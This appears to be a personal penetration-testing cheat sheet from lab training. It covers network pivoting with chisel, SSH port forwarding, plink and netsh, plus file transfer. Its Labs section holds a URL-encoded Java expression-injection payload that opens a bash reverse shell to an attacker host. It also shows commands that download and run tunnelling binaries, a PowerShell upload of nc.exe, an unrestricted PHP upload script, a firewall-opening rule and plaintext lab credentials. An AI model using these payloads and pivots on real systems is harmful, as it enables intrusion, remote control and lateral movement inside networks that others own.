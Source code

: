 # Tunnel Proxy Transfer

## Tunnel

### chisel

<https://github.com/jpillora/chisel>

```bash
# server
./chisel server -p 4444 --reverse

# client
./chisel client 172.16.8.144:4444 R:socks

wget 192.168.45.183/chisel_1.9.1_linux_amd64 -O /tmp/chisel && chmod +x /tmp/chisel

/tmp/chisel client 192.168.45.183:8080 R:socks
```

### ssh

#### ssh forwarding

192.168.162.63 straddle WAN and DMZ
10.4.162.215 is in DMZ
172.16.162.217 is in Intranet

```bash
#local port forwarding
ssh -N -L 0.0.0.0:4455:172.16.162.217:445 database_admin@10.4.162.215

smbclient -p 4455 -L //192.168.162.63/ -U hr_admin --password=Welcome1234
```

```bash
# remote port forwarding
ssh -N -R 127.0.0.1:2345:10.4.162.215:5432 parallels@192.168.45.183
```

#### ssh tunnel

```bash
# forward ssh tunnel
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

```bash
# reverse ssh tunnel
ssh -N -R 9090 kali@172.16.8.144
```

### plink

kali ip:172.16.8.144
intranet http server ip:192.168.18.1:80
so this is a reverse tunnel.

```cmd
scp kali@172.16.8.144/usr/share/windows-binaries/plink.exe .
plink -ssh -l kali -pw kali -R 172.16.8.144:5050:192.168.18.1:80 172.16.8.144
```

request to kali:5050 will be forwarded to intranet http server.

### netsh

local windows ip:172.16.8.152
intranet http server ip:192.168.18.1:80
so this is a forward tunnel.

```cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=172.16.8.152 connectport=80 connectaddress=192.168.18.1
```

request to windows:8080 will be forwarded to intranet http server.

## Proxy

### proxychains

nmap -sT means TCP connect scan, you shuld add -sT when you use proxychains to scan.

```bash
proxychains nmap -sT -vv 192.168.18.1

/etc/proxychains.conf
tcp_read_time_out 1000
tcp_connect_time_out 500
```

## Transfer

### download

### python

```bash
python3 -m http.server 80
```

#### rdp

```bash
xfreerdp /u:offsec /p:lab /v:192.168.159.61 /drive:home,/home/parallels/Downloads
```

### upload

#### appache php server

/var/www/html/upload.php

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir.$_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
```

```bash
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

```powershell
powershell (new-object System.Net.WebClient).UploadFile('http://172.16.8.144/upload.php', 'C:\Users\Public\nc.exe')
```

## Labs

```
http://192.168.162.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.183/4444%200%3E%261%27%29.start%28%29%22%29%7D/

python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh database_admin@10.4.162.215
sqlpass123
ssh -N -L 0.0.0.0:4455:172.16.162.217:445 database_admin@10.4.162.215
smbclient -p 4455 -L //192.168.162.63/ -U hr_admin --password=Welcome1234

ssh -N -R 127.0.0.1:2345:10.4.162.215:5432 parallels@192.168.45.183
ssh -N -R 127.0.0.1:2346:10.4.162.215:5432 parallels@192.168.45.183

psql -h 127.0.0.1 -p 2345 -U postgres


powershell wget -Uri http://192.168.45.183/plink.exe -OutFile C:\Windows\Temp\plink.exe

C:\Windows\Temp\plink.exe -ssh -l parallels -pw 1 -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.183

netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.162.64 connectport=22 connectaddress=10.4.162.215

netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.162.64 localport=2222 action=allow


wget 192.168.45.183/chisel_1.9.1_linux_amd64 -O /tmp/chisel && chmod +x /tmp/chisel

/tmp/chisel client 192.168.45.183:8080 R:socks

7he_C4t_c0ntro11er
```
